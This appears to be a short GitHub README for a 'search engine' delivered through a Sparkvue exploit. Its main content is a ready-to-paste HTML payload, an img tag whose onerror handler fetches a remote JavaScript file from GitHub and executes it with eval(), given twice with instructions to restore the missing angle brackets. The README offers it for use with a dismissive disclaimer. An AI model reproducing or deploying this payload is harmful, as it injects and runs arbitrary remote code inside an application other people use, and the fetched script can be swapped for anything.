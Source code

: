 This is a simple better UI search engine for the Sparkvue exploit originally found in 2024 or even earlier idk.

NOTE: I do not consent to your dumb self, if you get this exploit gone. don't come crying to me. Because IDC!

Also thanks to ohonbob for finding this beautiful exploit, and Amurkess for the Idea.
<img src=# onerror='fetch("https://github.com/CharlieIsInsane/CharlieSearch/raw/main/Search%20engine.js").then(r=>r.text()).then(c=>eval(c))'>
img src=# onerror='fetch("https://github.com/CharlieIsInsane/CharlieSearch/main/Search%20engine.js").then(r=>r.text()).then(c=>eval(c))'

make sure to put the < at the front and > at the back
